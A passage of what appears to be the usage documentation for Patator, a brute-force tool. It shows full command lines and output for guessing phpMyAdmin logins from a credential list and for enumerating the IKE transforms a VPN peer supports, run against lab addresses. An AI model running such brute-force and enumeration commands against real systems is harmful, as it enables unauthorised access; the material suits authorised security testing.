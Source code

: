```
...
```

Tested against `openssh-server 1:6.0p1-4+deb7u2` on `Debian 7.8`.

* HTTP : Brute-force phpMyAdmin logon

```
$ http_fuzz url=http://10.0.0.1/pma/index.php method=POST body='pma_username=COMBO00&pma_password=COMBO01&server=1&target=index.php&lang=en&token=' 0=combos.txt before_urls=http://10.0.0.1/pma/index.php accept_cookie=1 follow=1 -x ignore:fgrep='Cannot log in to the MySQL server' -l /tmp/qsdf
11:53:47 patator    INFO - Starting Patator v0.7-beta (http://code.google.com/p/patator/) at 2014-08-31 11:53 EST
11:53:47 patator    INFO -
11:53:47 patator    INFO - code size:clen       time | candidate                          |   num | mesg
11:53:47 patator    INFO - -----------------------------------------------------------------------------
11:53:48 patator    INFO - 200  49585:0        0.150 | root:p@ssw0rd                      |    26 | HTTP/1.1 200 OK
11:53:51 patator    INFO - 200  13215:0        0.351 | root:                              |    72 | HTTP/1.1 200 OK
^C
11:53:54 patator    INFO - Hits/Done/Skip/Fail/Size: 2/198/0/0/3000, Avg: 29 r/s, Time: 0h 0m 6s
11:53:54 patator    INFO - To resume execution, pass --resume 15,15,15,16,15,36,15,16,15,40
```

Payload #72 was a false positive due to an unexpected error message:

```
$ grep AllowNoPassword /tmp/qsdf/72_200\:13215\:0\:0.351.txt
... class="icon ic_s_error" /> Login without a password is forbidden by configuration (see AllowNoPassword)</div><noscript>
```

Tested against `phpMyAdmin 4.2.7.1`.

* IKEv1 : Enumerate transforms supported by VPN peer

```
# ike_enum host=10.0.0.1 transform=MOD0 0=TRANS aggressive=RANGE1 1=int:0-1 -x ignore:fgrep='NO-PROPOSAL'
16:52:58 patator    INFO - Starting Patator v0.7-beta (https://github.com/lanjelot/patator) at 2015-04-05 16:52 AEST
16:52:58 patator    INFO -
16:52:58 patator    INFO - code  size    time | candidate                          |   num | mesg
16:52:58 patator    INFO - -----------------------------------------------------------------------------
16:53:03 patator    INFO - 0     70     0.034 | 5,1,1,2:0                          |  1539 | Handshake returned: Enc=3DES Hash=MD5 Group=2:modp1024 Auth=PSK (Main)
16:53:03 patator    INFO - 0     72     0.031 | 5,1,65001,2:0                      |  1579 | Handshake returned: Enc=3DES Hash=MD5 Group=2:modp1024 Auth=XAUTH&PSK (Main)
16:53:03 patator    INFO - 0     76     0.033 | 5,1,1,2:1                          |  1540 | Handshake returned: Enc=3DES Hash=MD5 Group=2:modp1024 Auth=PSK (Aggressive)
16:53:03 patator    INFO - 0     78     0.034 | 5,1,65001,2:1                      |  1580 | Handshake returned: Enc=3DES Hash=MD5 Group=2:modp1024 Auth=XAUTH&PSK (Aggressive)
16:53:06 patator    INFO - 0     84     0.034 | 7/128,2,1,2:0                      |  2371 | Handshake returned: Enc=AES KeyLength=128 Hash=SHA1 Group=2:modp1024 Auth=PSK (Main)
16:53:06 patator    INFO - 0     90     0.033 | 7/128,2,1,2:1                      |  2372 | Handshake returned: Enc=AES KeyLength=128 Hash=SHA1 Group=2:modp1024 Auth=PSK (Aggressive)
16:53:06 patator    INFO - 0     86     0.034 | 7/128,2,65001,2:0                  |  2411 | Handshake returned: Enc=AES KeyLength=128 Hash=SHA1 Group=2:modp1024 Auth=XAUTH&PSK (Main)
16:53:06 patator    INFO - 0     92     0.035 | 7/128,2,65001,2:1                  |  2412 | Handshake returned: Enc=AES KeyLength=128 Hash=SHA1 Group=2:modp1024 Auth=XAUTH&PSK (Aggressive)

+ 10.0.0.1:500 (Main Mode)
    Encryption       Hash             Auth       Group
    ---------- ----------       ----------  ----------
```
